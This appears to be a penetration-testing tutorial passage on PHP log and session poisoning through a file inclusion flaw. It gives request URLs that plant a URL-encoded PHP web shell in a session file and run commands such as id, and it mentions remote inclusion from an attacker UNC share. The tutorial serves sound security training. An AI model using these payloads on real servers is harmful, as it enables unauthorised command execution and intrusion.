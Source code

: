 Now, we can include our script by using a UNC path (e.g. \\<OUR_IP>\share\shell.php), and specify the command with (&cmd=whoami) as we did earlier.


# Log Poisoning
Writing PHP code in a field we control that gets logged into a log file (i.e. poison/contaminate the log file), and then include that log file to execute the PHP code. For this attack to work, the PHP web application should have read privileges over the logged files, which vary from one server to another.

## PHP Session Poisoning
Most PHP web applications utilize PHPSESSID cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in session files on the back-end, and saved in /var/lib/php/sessions/ on Linux and in C:\Windows\Temp\ on Windows. The name of the file that contains our user's data matches the name of our PHPSESSID cookie with the sess_ prefix. For example, if the PHPSESSID cookie is set to el4ukv0kqbvoirg7nkp4dncpk3, then its location on disk would be /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3.

The first thing we need to do in a PHP Session Poisoning attack is to examine our PHPSESSID session file and see if it contains any data we can control and poison. So, let's first check if we have a PHPSESSID cookie set to our session:

As we can see, our PHPSESSID cookie value is nhhv8i0o6ua4g88bkdl9u1fdsd, so it should be stored at /var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd. Let's try include this session file through the LFI vulnerability and view its contents:
```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

Let's try setting the value of page a custom value (e.g. language parameter) and see if it changes in the session file. We can do so by simply visiting the page with ?language=session_poisoning specified, as follows:
```
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

Now, let's include the session file once again to look at the contents:

This time, the session file contains session_poisoning instead of es.php, which confirms our ability to control the value of page in the session file. Our next step is to perform the poisoning step by writing PHP code to the session file. We can write a basic PHP web shell by changing the ?language= parameter to a URL encoded web shell, as follows:
```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Finally, we can include the session file and use the &cmd=id to execute a commands:
```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
